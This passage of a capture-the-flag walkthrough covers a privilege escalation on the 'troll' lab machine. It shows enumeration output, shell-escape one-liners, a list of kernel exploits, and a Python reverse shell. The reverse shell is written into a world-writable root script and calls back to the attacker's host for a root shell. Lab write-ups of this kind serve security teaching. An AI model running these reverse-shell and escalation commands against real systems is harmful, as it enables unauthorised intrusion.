# access here, or in any related virtual host.
AllowOverride None
Require all granted
Require all denied
#
# The following directives define some format nicknames for use with
# a CustomLog directive.
#
# These deviate from the Common Log Format definitions in that they use %O
# (the actual bytes sent including headers) instead of %b (the size of the
# requested file), because the latter makes it impossible to detect partial
# requests.
#
# Note that the use of %{X-Forwarded-For}i instead of %h is not recommended.
# Use mod_remoteip instead.
#
LogFormat "%v:%p %h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" vhost_combined
LogFormat "%h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" combined
LogFormat "%h %l %u %t \"%r\" %>s %O" common
LogFormat "%{Referer}i -> %U" referer
LogFormat "%{User-agent}i" agent
# Include of directories ignores editors' and dpkg's backup files,
# see README.Debian for details.
# Include generic snippets of statements
IncludeOptional conf-enabled/*.conf
# Include the virtual host configurations:
IncludeOptional sites-enabled/*.conf
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
[+] Sudo Version (Check out http://www.exploit-db.com/search/?action=search&filter_page=1&filter_description=sudo)
Sudo version 1.8.9p5
Sudoers policy plugin version 1.8.9p5
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.9p5
[*] IDENTIFYING PROCESSES AND PACKAGES RUNNING AS ROOT OR OTHER SUPERUSER...
root 1981 12:44 0:00 [kworker/u3:2]
root 21 10:12 0:00 [md]
root 670 10:12 0:00 /sbin/getty
root 18 10:12 0:00 [kblockd]
root 13 10:12 0:00 [netns]
root 72 10:12 0:00 [charger_manager]
root 1767 12:00 0:05 [kworker/u2:1]
root 19 10:12 0:00 [ata_sff]
root 29 10:12 0:00 [fsnotify_mark]
root 9 10:12 0:00 [migration/0]
root 694 10:12 0:00 /usr/sbin/sshd
root 47 10:12 0:00 [scsi_eh_0]
root 1009 10:12 0:00 /sbin/getty
root 20 10:12 0:01 [khubd]
root 473 10:12 0:00 /usr/sbin/vsftpd
Possible Related Packages:
vsftpd 3.0.2-1ubuntu2.14.04.1 lightweight, efficient FTP server written for security
root 48 10:12 0:00 [scsi_eh_1]
root 137 10:12 0:00 [ext4-rsv-conver]
root 2 10:12 0:00 [kthreadd]
root 71 10:12 0:00 [deferwq]
root 43 10:12 0:00 [kthrotld]
root 12 10:12 0:00 [kdevtmpfs]
root 673 10:12 0:00 /sbin/getty
root 22 10:12 0:00 [devfreq_wq]
root 16 10:12 0:00 [bioset]
root 1 10:12 0:01 /sbin/init
Possible Related Packages:
busybox-initramfs 1:1.21.0-1ubuntu1 Standalone shell setup for initramfs
init-system-helpers 1.14 helper tools for all init systems
initramfs-tools 0.103ubuntu4.2 tools for generating an initramfs
initramfs-tools-bin 0.103ubuntu4.2 binaries used by initramfs-tools
initscripts 2.88dsf-41ubuntu6 scripts for initializing and shutting down the system
insserv 1.14.0-5ubuntu2 boot sequence organizer using LSB init.d script dependency information
libklibc 2.0.3-0ubuntu1 minimal libc subset for use with initramfs
lsb-base 4.1+Debian11ubuntu6 Linux Standard Base 4.1 init script functionality
module-init-tools 15-0ubuntu6 transitional dummy package (module-init-tools to kmod)
ncurses-base 5.9+20140118-1ubuntu1 basic terminal type definitions
ncurses-term 5.9+20140118-1ubuntu1 additional terminal type definitions
sysvinit-utils 2.88dsf-41ubuntu6 System-V-like utilities
upstart 1.12.1-0ubuntu4.2 event-based init daemon
root 1576 11:24 0:15 [kworker/u2:0]
root 136 10:12 0:00 [jbd2/sda1-8]
root 2548 14:07 0:00 sshd:
root 625 10:12 0:00 upstart-socket-bridge
root 25 10:12 0:00 [khungtaskd]
root 697 10:12 0:00 cron
Possible Related Packages:
cron 3.0pl1-124ubuntu2 process scheduling daemon
root 367 10:12 0:00 /lib/systemd/systemd-logind
root 674 10:12 0:00 /sbin/getty
root 30 10:12 0:00 [ecryptfs-kthrea]
root 27 10:12 0:00 [ksmd]
root 1451 11:16 0:00 [kworker/u3:1]
root 14 10:12 0:00 [writeback]
root 15 10:12 0:00 [kintegrityd]
root 3 10:12 0:01 [ksoftirqd/0]
root 1020 10:14 0:00 [kauditd]
root 667 10:12 0:00 /sbin/getty
root 126 10:12 0:00 [scsi_eh_2]
root 5 10:12 0:00 [kworker/0:0H]
root 954 10:12 0:10 /usr/bin/python
Possible Related Packages:
dh-python 1.20140128-1ubuntu8 Debian helper tools for packaging Python libraries and applications
libpython-stdlib:i386 2.7.5-5ubuntu3 interactive high-level object-oriented language (default python version)
libpython2.7:i386 2.7.6-8 Shared Python runtime library (version 2.7)
libpython2.7-minimal:i386 2.7.6-8 Minimal subset of the Python language (version 2.7)
libpython2.7-stdlib:i386 2.7.6-8 Interactive high-level object-oriented language (standard library, version 2.7)
libpython3-stdlib:i386 3.4.0-0ubuntu2 interactive high-level object-oriented language (default python3 version)
libpython3.4-minimal:i386 3.4.0-2ubuntu1 Minimal subset of the Python language (version 3.4)
libpython3.4-stdlib:i386 3.4.0-2ubuntu1 Interactive high-level object-oriented language (standard library, version 3.4)
python 2.7.5-5ubuntu3 interactive high-level object-oriented language (default version)
python-apt 0.9.3.5 Python interface to libapt-pkg
python-apt-common 0.9.3.5 Python interface to libapt-pkg (locales)
python-chardet 2.0.1-2build2 universal character encoding detector
python-debian 0.1.21+nmu2ubuntu2 Python modules to work with Debian-related data formats
python-minimal 2.7.5-5ubuntu3 minimal subset of the Python language (default version)
python-pyinotify 0.9.4-1build1 simple Linux inotify Python bindings
python-requests 2.2.1-1 elegant and simple HTTP library for Python, built for human beings
python-six 1.5.2-1 Python 2 and 3 compatibility library (Python 2 interface)
python-urllib3 1.7.1-1build1 HTTP library with thread-safe connection pooling for Python
python-xapian 1.2.16-2ubuntu1 Xapian search engine interface for Python
python2.7 2.7.6-8 Interactive high-level object-oriented language (version 2.7)
python2.7-minimal 2.7.6-8 Minimal subset of the Python language (version 2.7)
python3 3.4.0-0ubuntu2 interactive high-level object-oriented language (default python3 version)
python3-apt 0.9.3.5 Python 3 interface to libapt-pkg
python3-commandnotfound 0.3ubuntu12 Python 3 bindings for command-not-found.
python3-dbus 1.2.0-2build2 simple interprocess messaging system (Python 3 interface)
python3-distupgrade 1:0.220.2 manage release upgrades
python3-gdbm:i386 3.4.0-0ubuntu1 GNU dbm database support for Python 3.x
python3-gi 3.12.0-1ubuntu1 Python 3 bindings for gobject-introspection libraries
python3-minimal 3.4.0-0ubuntu2 minimal subset of the Python language (default python3 version)
python3-update-manager 1:0.196.12 python 3.x module for update-manager
python3.4 3.4.0-2ubuntu1 Interactive high-level object-oriented language (version 3.4)
python3.4-minimal 3.4.0-2ubuntu1 Minimal subset of the Python language (version 3.4)
root 124 10:12 0:00 [kpsmoused]
root 10 10:12 0:01 [watchdog/0]
root 11 10:12 0:00 [khelper]
root 265 10:12 0:00 upstart-udev-bridge
root 270 10:12 0:00 /lib/systemd/systemd-udevd
root 8 10:12 0:00 [rcu_bh]
root 51 10:12 0:00 [kworker/0:2]
root 7 10:12 0:01 [rcu_sched]
root 31 10:12 0:00 [crypto]
root 392 10:12 0:00 upstart-file-bridge
root 26 10:12 0:00 [kswapd0]
root 676 10:12 0:00 /sbin/getty
root 28 10:12 0:00 [khugepaged]
root 814 10:12 0:06 /usr/sbin/apache2
Possible Related Packages:
apache2 2.4.7-1ubuntu4.1 Apache HTTP Server
apache2-bin 2.4.7-1ubuntu4.1 Apache HTTP Server (binary files and modules)
apache2-data 2.4.7-1ubuntu4.1 Apache HTTP Server (common files)
root 409 10:12 0:00 dhclient
root 23 10:12 3:06 [kworker/0:1]
[*] ENUMERATING INSTALLED LANGUAGES/TOOLS FOR SPLOIT BUILDING...
[+] Installed Tools
/usr/bin/awk
/usr/bin/perl
/usr/bin/python
/usr/bin/gcc
/usr/bin/cc
/usr/bin/vi
/usr/bin/vim
/usr/bin/find
/bin/netcat
/bin/nc
/usr/bin/wget
/usr/bin/ftp
[+] Related Shell Escape Sequences...
vi--> :!bash
vi--> :set shell=/bin/bash:shell
vi--> :!bash
vi--> :set shell=/bin/bash:shell
awk--> awk 'BEGIN {system("/bin/bash")}'
find--> find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
perl--> perl -e 'exec "/bin/bash";'
[*] FINDING RELEVENT PRIVILEGE ESCALATION EXPLOITS...
Note: Exploits relying on a compile/scripting language not detected on this system are marked with a '**' but should still be tested!
The following exploits are ranked higher in probability of success because this script detected a related running process, OS, or mounted file system
The following exploits are applicable to this kernel version and should be investigated as well
- Kernel ia32syscall Emulation Privilege Escalation || http://www.exploit-db.com/exploits/15023 || Language=c
- Sendpage Local Privilege Escalation || http://www.exploit-db.com/exploits/19933 || Language=ruby**
- CAP_SYS_ADMIN to Root Exploit 2 (32 and 64-bit) || http://www.exploit-db.com/exploits/15944 || Language=c
- CAP_SYS_ADMIN to root Exploit || http://www.exploit-db.com/exploits/15916 || Language=c
- MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c
- open-time Capability file_ns_capable() Privilege Escalation || http://www.exploit-db.com/exploits/25450 || Language=c
- open-time Capability file_ns_capable() - Privilege Escalation Vulnerability || http://www.exploit-db.com/exploits/25307 || Language=c
Finished
=================================================================================================
Broadcast Message from root@trol
(somewhere) at 14:10 ...
TIMES UP LOL!
Connection to 192.168.43.6 closed by remote host.
Connection to 192.168.43.6 closed.
A world writable file /lib/log/cleaner.py that is owned by root, is found.
Viewing what inside that file and what happened to my linuxprivchecker.py that was stored in /tmp, it was clearly to see that this file is being executed every disconnection.
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
os.system('rm -r /tmp/* ')
except:
sys.exit()
Broadcast Message from root@trol
(somewhere) at 14:35 ...
TIMES UP LOL!
Connection to 192.168.43.6 closed by remote host.
Connection to 192.168.43.6 closed.
Editing cleaner.py got me a root shell at the moment that the SSH session was terminated:
[gandosha@GandoPC 192.168.43.6]$ ssh overflow@192.168.43.6
overflow@192.168.43.6's password:
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)
* Documentation: https://help.ubuntu.com/
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
Last login: Sun Oct 28 14:33:50 2018 from 192.168.43.3
Could not chdir to home directory /home/overflow: No such file or directory
$ cd /tmp;ls -aul
total 8
drwxrwxrwt 2 root root 4096 Oct 28 14:35 .
drwxr-xr-x 21 root root 4096 Oct 28 13:49 ..
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.43.3",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /lib/log/cleaner.py && cat /lib/log/cleaner.py
Broadcast Message from root@trol
(somewhere) at 14:40 ...
TIMES UP LOL!
Connection to 192.168.43.6 closed by remote host.
Connection to 192.168.43.6 closed.
[gandosha@GandoPC 192.168.43.6]$ sudo ncat -lvnp 443
[sudo] password for gandosha:
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.43.6.
Ncat: Connection from 192.168.43.6:42955.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# python -c 'import pty;pty.spawn("/bin/bash")'
root@troll:~# pwd
pwd
/root
root@troll:~# ls -aul
ls -aul
total 28
drwx------ 3 root root 4096 Oct 28 14:41 .
drwxr-xr-x 21 root root 4096 Oct 28 13:49 ..
-rw------- 1 root root 0 Aug 13 2014 .bash_history
-rw-r--r-- 1 root root 58 Aug 13 2014 proof.txt
-rw-r--r-- 1 root root 74 Aug 10 2014 .selected_editor
drwx------ 2 root root 4096 Aug 13 2014 .ssh
-rw------- 1 root root 5538 Aug 13 2014 .viminfo
root@troll:~# cat proof.txt
cat proof.txt
Good job, you did it!
702a8c18d29c6f3ca0d99ef5712bfbdc